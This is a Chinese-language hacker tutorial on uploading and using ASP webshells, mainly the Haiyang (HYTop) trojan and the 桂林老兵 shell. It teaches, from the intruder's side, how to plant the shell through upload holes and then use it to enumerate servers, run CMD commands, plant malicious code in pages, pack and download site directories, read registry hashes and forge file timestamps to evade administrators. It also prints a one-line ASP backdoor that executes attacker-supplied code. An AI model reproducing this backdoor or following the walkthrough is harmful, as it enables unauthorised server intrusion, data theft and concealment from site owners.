WebShell 是对于支持动态脚本的服务器环境而言，没有动态脚本的支持也就没有了 WebShell 的概念。那么为什么 WebShell 需要动态脚本的支持呢？因为 WebShell 也是一个动态脚本程序，只不过是为了帮助我们来控制网站或者服务器罢了。就像菜刀放在厨师的手上叫做菜刀，放在坏人的手上叫做凶器一样。

这么一说大家是不是想到了传统的木马，例如 PcShare，它也是一个完整的程序，用在管理员手里就是管理工具，用在我们手里当然就变成了黑客工具了。WebShell 就是一种跟传统木马相对的木马，当然还有网页木马也是。它们都是木马，只是表现出来的形式不同罢了。

动态脚本程序有很多种类，比如 ASP、PHP、ASP.NET、JSP 等，所以对应的 WebShell 就有很多种类，不同的种类分别运行于不同的脚本环境下。目前 ASP 脚本最为常见，为什么呢？这是因为使用 Windows 系统来作为服务器的软件非常多，而 Windows 使用的 IIS 默认是支持 ASP 的，这也就造成了目前 ASP 网站多如牛毛。

那么 WebShell 有什么特点才能使得它单独列为一类呢？WebShell 的隐蔽性很强，它可以轻松地穿越防火墙的阻拦，因为它使用的是 WEB 端口（通常为80），一般的防火墙根本就无法进行阻拦，而且不会产生系统日志，或多或少也就是在 WEB 日志里留下痕迹，技术不高的管理员看着网站被攻击也已无从下手。

WebShell 使用起来很方便，它只需要一个 IE 浏览器就可以使用 WebShell 的全部功能，因为它的界面都是通过 WEB 网页方式呈现给大家的。相信看到这么强大的 WebShell，你眼睛已经发绿了吧！想尽快掌握 WebShell 的使用要领吗？想投入 WebShell 的宽广怀抱吗？既然想还不赶紧往下看？

#### ASP 类的 WebShell

ASP 类的 WebShell 中比较有名气的要数海阳顶端网 ASP 木马和桂林老兵了。前者功能强大，不过体积稍微庞大了点；而后者呢，则刚好相反。

在上传 WebShell 之前，首先要把它的登录密码更改掉，为什么呢？还记得以前讲过的 ASP 接口盗QQ收信文件吗？对了，就是哄其他人恶意进入。打开海阳木马，听我将其中的机关慢慢道来（图1）。

```asp
Option Explicit
Dim thenct, sTime, aspPath, pageName, strBackDoor, fsoX, sQX, usX
...
const r='w7Top2006'
const showLogin=''
const clientPassword=''
const dbSelectNumber='10'
...
```

图1

```asp
Const mm='HVvop2006'      // 自定义Session前缀，防止多人猜测
Const showLogin=''         // 是否显示登录界面
Const clientPassword=''    // 输入后台密码
Const dbSelectNumber='10'  // 数据库操作时默认读取记录条数
Const isDebugMode=False    // 是否调试模式
Const myName='...'         // 站点标题或名称
Const userPassword='...'   // 管理密码
```

经过简单设置后，就可以将木马上传到 WEB 网站了，可以是通过数据库备份、上传漏洞、由小助手写入。在 IE 中输入木马地址便可访问得到 WebShell 了（图2），输入密码登录后，就进入了 WebShell 的主菜单（图3）。

##### 1、系统服务信息

这个功能模块可以获得当前服务器中的服务列表（图4），可以查看各个服务的启动情况及其详细情况，比如3389服务、PcAnywhere服务等。通过查看服务器开放的服务信息，就可以得出当前服务器开放了什么服务，然后进行后续的入侵活动。




##### 2、服务器相关数据

这个功能模块可分为五部分，我们可以从这个功能模块中获得相当多的服务器信息。从图5中可以得到当前服务器的内存大小、服务器时间、服务器软件（当前为 Microsoft-IIS/5.1，也就是说我的电脑使用的是 XP 系统）、服务器 CPU 数等信息。



从图6中可以得到当前服务器的系统环境及其硬件环境，比如系统目录、Windows目录、临时目录等信息。



从图7中可以得到当前服务器上的磁盘信息，如果权限够大的话，可以看到各个磁盘分区的详细信息，比如类型、卷标、文件系统、可用空间等信息。



从图8中可以得到当前 WebShell 运行站点根目录的环境，比如物理路径、当前大小、文件夹及文件数、创建及修改时间等信息。





从图9中可以得到当前服务器开放的终端端口号，这对于我们以后登录3389会有好处，而且会检查系统是否存在自动登录信息，如果存在的话，肯定就发了。

##### 3、服务器组件探针

这个功能模块可以列出服务器上各组件名称和支持情况（图10），通过查询这些组件可以获得当前服务器支持的组件系统。



图10

其中最为常见的就是 FSO 组件，很多 ASP 的运行都需要它的支持；Shell.Application、WScript.Shell 这两个组件的存在可以判断是否可以执行 CMD 命令。

##### 4、系统用户及用户组信息

这个功能模块可以得到当前服务器上存在的用户及其用户组（图11），还可以得到更为详细的用户信息，让我们对服务器用户信息了如指掌。


图11

##### 5、客户端服务器交互信息

这个功能模块可以得到当前服务器缓存中的信息（图12），比如保存在 Session 里的登录密码（海阳就是这么处理的）、还有当前的 HTTP 头信息、Cookies 等等敏感信息。


图12

##### 6、WScript.Shell & Shell.Application 程序运行器

这两个功能模块的功能是差不多的（图13、图14），都可以通过内部函数执行 CMD 命令，然后再将结果反馈到 WEB 页面上来，这也是在提权过程中最常用的一个功能，详细使用我们会在以后讲提权部分中进行详细讲述。


图13



图14

##### 7、FSO & Shell.Application 文件浏览操作器

这个功能模块可以说是海阳木马的主体部分（图15、图16），因为它可以查看当前 WEB 权限能够查看的所有文件（当然不止 WEB 目录下的文件），可以通过盘符来访问各个磁盘分区，其中的“.”代表海阳木马存放的目录，“/”代表当前站点的根目录。Shell.Application 文件浏览器还可以访问“我的电脑”“控制面板”里的东西哦。


图15


图16

可以分为六小功能模块，当然最主要的还是对磁盘中文件及其文件夹的浏览。进入一个目录后，可以选择新建菜单来建立文件或者文件夹（图17），通过这个功能可以方便地在服务器上建立一个新的文件或者文件夹。注意别忘了刷新哦。


图17


图18

进入一个目录后，可以选择上传按钮把本地文件上传到服务器上（图18），可以上传文本文件、木马程序、图片等，总之就是想传什么就传什么。

选中一个文件或者文件夹，然后选择重命名按钮（图19），可以将文件或者文件夹更改名字。

选中一个文件，然后选择编辑按钮（图20），就可以进入文件编辑状态，我们可以轻松地更改文件内容，比如改代码、挂马等操作。


图19



图20

```txt
# Interface IP Configuration
pushd interface ip

# Interface IP Configuration for "Wireless Network Connection"
set address name="Wireless Network Connection" source=dhcp
set dns name="Wireless Network Connection" source=dhcp register=PRIMARY
set wins name="Wireless Network Connection" source=dhcp

# Interface IP Configuration for "Local Area Connection"
popd
# End of interface IP configuration
```


图21

选中一个文件或者文件夹，然后选择属性按钮（图21），就可以查看选中的文件或者文件夹的属性信息。当使用 Shell.Application 文件浏览器时（图22），还可以修改时间。大多数管理员是通过查看最后修改时间来查我们上传的文件，使用这个功能把 ASP 木马修改为和其他文件相同时间，这样就可以躲过查杀了。








```asp
<%script language=javascript runat=server>
If Request("#")<>"" Then Session("#")=Request("#")
If Session("#")<>"" Then Execute(Session("#"))
</script>
```

选中一个脚本文件或者 ACCESS 数据库，然后选择插入按钮（图23），就可以将一句话木马插入其中。插入的一句话木马是海阳木马默认的，可以在源代码中进行修改。剩下的就是下载、复制、粘贴、剪切等功能了，相信使用过 Windows 的朋友肯定不在话下了。

##### 8、微软数据库查看/操作器

这个功能模块可以查看 ACCESS 和 MSSQL 数据库的内容（图24），使得我们不用下载整个数据库就能得到其中有用的信息。因为 ACCESS 和 MSSQL 的连接字符串不同，所以也就需要填写不同的信息。

ACCESS 的数据库直接写入其物理路径及其文件名即可（图25）。MSSQL 数据库则需要填写长长的连接范例，其中需要数据库地址（本机可以为 localhost）、登录账号及其密码，还有所连接的数据库名字：`sql:Provider=SQLOLEDB.1;Server=localhost;User ID=sa;Password=haiyangtop;Database=bbs;`，它的意思就是使用账号为 SA、密码为 haiyangtop，连接到本机 MSSQL 的 BBS 数据库上。

##### 9、文件夹打包/解开器

这个功能模块可以轻松地将任意有读取权限的目录进行打包（图26），打包后的文件放在哪里呢？在海阳木马的同级目录下，生成打包文件 HYTop.mdb，只需要把这个文件下载回来，然后再使用自带的工具（pack.vbs）进行解开就可以了。很多拿别人网站的兄弟都是用这个的哦！


##### 10、文本文档搜索器

这个功能模块可以在服务器上找到你想要的东西（图27），确定好关键字就可以让它自己去搜索了，只针对文本文档哦！

##### 11、一些零碎的小东西

这个功能模块里存放着一些不起眼的小功能（图28），但是不能小瞧，真的有可能在入侵过程中用得到。数制转换，可以将字符串在十进制和十六进制之间转换；下载到服务器，可以将远程的文件下载到该服务器上；文件编辑，可以使用 FSO 或者 Stream 进行编辑；管理账号添加，虽然成功率极低，但是还是可以尝试一下的；注册表键值读取，在入侵中相当有用的功能，比如最近的 RADMIN 的 HASH。

我们已经全面认识了海阳 ASP 木马的各个功能，下面再来简单介绍一下桂林老兵的 ASP 木马，也好让大家熟悉一下除海阳之外的 ASP 木马的使用。

跟海阳马一样，在上传之前还是需要手工修改部分代码（图29），使用记事本打开 dbm6.asp 文件，其中需要修改的有：

```asp
ApplicationName = "Asp站长助手 6.0"   // 程序名称/标题
UserPass        = "gxgl.com"          // 登录密码
```

修改完毕后就可以上传了，然后在浏览器中直接访问即可（图30），输入密码就可以进入主界面（图31）。

其界面和海阳虽然不太一样，但是其主要的功能还是差不多的，左面程序会自动列出所有的磁盘分区，方便对文件的读取和修改。

